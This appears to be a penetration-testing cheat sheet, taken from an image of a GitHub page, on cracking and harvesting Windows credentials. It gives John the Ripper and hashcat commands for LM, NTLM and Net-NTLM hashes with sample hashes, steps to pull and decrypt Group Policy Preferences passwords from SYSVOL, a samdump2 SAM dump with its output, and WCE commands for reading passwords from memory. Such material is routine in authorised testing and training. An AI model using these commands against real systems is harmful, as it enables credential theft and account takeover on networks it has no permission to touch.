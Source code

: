 ## John 

    john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 password_list

    john --format=nt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

## Hash Windows SAM
    LM : ex: 299BD128C1101FD6
    john --format=lm hash.txt
    hashcat -m 3000 -a 3 hash.txt

    NTLM : ex: 26112010952d963c8dc4217daec986d9
    Found from SAM: admin:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
    MD4(UTF-16-LE(password))
    john --format=nt hash.txt
    hashcat -m 1000 -a 3 hash.txt

    NTLMv1 (A.K.A. Net-NTLMv1) : ex: u4-netntlm::kNS:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt

    NTLMv2 (A.K.A. Net-NTLMv2) : ex: admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030
    john --format=netntlmv2 hash.txt
    hashcat -m 5600 -a 3 hash.txt



## Misconfigured AD
    net use z: \\(target_hostname)\SYSVOL
    dir /s Groups.xml
    type Z:\local.domain\Policies\{84583021-C460-486C-83E1- FA1EC8CA84FC}\Machine\Preferences\Groups\Groups.xml
    gpp-decrypt SvtusBQWJgAFrFPTyPH9clizXPQBDqDDGzlSDxKogcz, password will be outputted

## SAM dump : Samdump2
```
cd /mnt/vhd/Windows/System32/config
# samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

## SAM Cracking: WCE32/WCE64
    About: wce32.exe (wce64.exe) can be used to attempt cracking of user passwords in memory
    wce32.exe -w 
    wce64.exe -w
